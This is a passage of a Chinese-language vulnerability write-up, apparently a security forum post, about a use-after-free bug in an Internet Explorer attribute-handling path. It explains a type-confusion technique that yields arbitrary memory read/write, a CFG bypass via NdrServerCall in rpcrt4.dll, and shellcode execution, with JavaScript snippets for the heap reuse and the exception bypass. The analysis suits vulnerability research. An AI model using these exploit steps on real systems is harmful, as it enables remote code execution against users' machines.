  

BSTR 内存空间被释放 ![](https://bbs.pediy.com/upload/tmp/893960_ZB877XYK653V8MB.png)

 

第一次 DeleteAt 时, nodevalue 中 BSTR 字符串内存空间被释放重引用. 所以该漏洞本质是一个 UAF 类型的漏洞.

 

![](https://bbs.pediy.com/upload/tmp/893960_W2N6FX2ENFSN22D.png)

### 3. 漏洞利用

**漏洞的利用方式是通过两个指针指向该 nodevalue 内存, 进行类型混淆, 通过读写这块内存构造出一个起始地址为 0, 长度为 0xffffffff 的 ArrayBuffer, 然后解析为 DataView, 实现任意地址的读写.**

 

**而后通过构造 RPC_MESSAGE 调用 NdrServerCall 进行任意系统函数的调用, 覆盖 rpcrt4.dll 系统调用为 KiFastSystemCalRetl 关闭 rpcrt4.dll 的 CFG 保护, 然后进行任意函数的跳转. 执行 shellcode.**

 

在第二次 DeleteAt 时, FindAAIndexNS 返回索引为 - 1, 而导致在函数中主动触发异常使 CAttray 被置空, 所以需要绕过异常, 可以在 ClearAttributes 后, 再将 attribute set 回去, 同时在 ClearAttributes 释放内存后, hd2.nodevalue 使用大小为 0x20010 的 dataview 对象占用这块内存空间.

```
att.nodeValue = {
           valueOf: function () {
               hd1.nodeValue = (new alloc1()).nodeValue
               ele.clearAttributes()
               //重引用被释放的内存
               hd2 = hd1.cloneNode()
               //绕过异常
               ele.setAttribute('attribute', 1337)
           }
       }

```

```
function alloc1() {
    var view = new DataView(abf)
    var str = ''
    for (var i = 4; i < abf.byteLength - 2; i += 2)
        str += '%u' + pad0(view.getUint16(i, true).toString(16))
    var result = document.createAttribute('alloc')
    result.nodeValue = unescape(str)
    return result
}

```

![](https://bbs.pediy.com/upload/tmp/893960_T6KX6HZJMJ8HZGQ.png)

 

然后在 removeAttribute 时进行二次释放, 然后使用一个 dict 对象再次占用这块内存. 这样做的目的是进行类型混淆, 通过 hd2.nodevalue 读取和修改 hd0.nodevalue 内存.
